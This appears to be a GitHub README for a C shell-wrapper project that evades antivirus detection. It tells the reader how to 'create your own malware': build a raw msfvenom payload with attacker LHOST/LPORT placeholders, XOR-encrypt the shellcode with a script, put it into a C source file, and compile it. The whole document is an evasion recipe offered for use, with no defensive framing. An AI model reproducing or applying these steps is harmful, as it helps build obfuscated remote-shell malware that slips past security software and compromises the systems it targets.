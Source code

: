 # AV_bypass_shellwrapper
Shell wrapper script written in C language to bypass AVs

* To  create you own malware create a raw msfvenom payload
```
msfvenom -p <payload_type> LHOST=<lhost> LPORT=<lport> -f raw -o shellcode.bin
````

* XOR encrypt the payload
```
xor.py shellcode.bin
```

* Add the Encrpted shellcode to variable c in the malwareX.c file

* Compile the code using Visual Studio IDE
